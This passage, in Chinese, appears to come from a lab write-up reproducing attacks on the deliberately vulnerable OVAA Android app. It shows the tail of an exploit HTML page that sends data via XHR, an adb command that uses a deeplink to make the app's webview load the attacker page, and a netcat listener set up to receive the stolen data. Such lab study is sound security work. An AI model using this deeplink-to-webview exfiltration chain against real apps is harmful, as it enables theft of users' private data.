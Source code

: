 ```html
                xhr.open("GET", url, true);
                xhr.send();
            }
            load(url);
        </script>
    </body>
</html>
```

然后利用`adb_lemu.exe shell am start -n oversecured.ovaa/oversecured.ovaa.activities.DeeplinkActivity -a android.intent.action.VIEW -d "oversecured://ovaa/webview?url=file://example.com/data/local/tmp/test.html"`调用`DeeplinkActivity`令其解析。

并且`nc -lvnp 9999`在9999端口监听发送来的数据。

成功获取数据，只是由于https，数据被加密了

![](OVAA复现/image-20240608223903349.png)

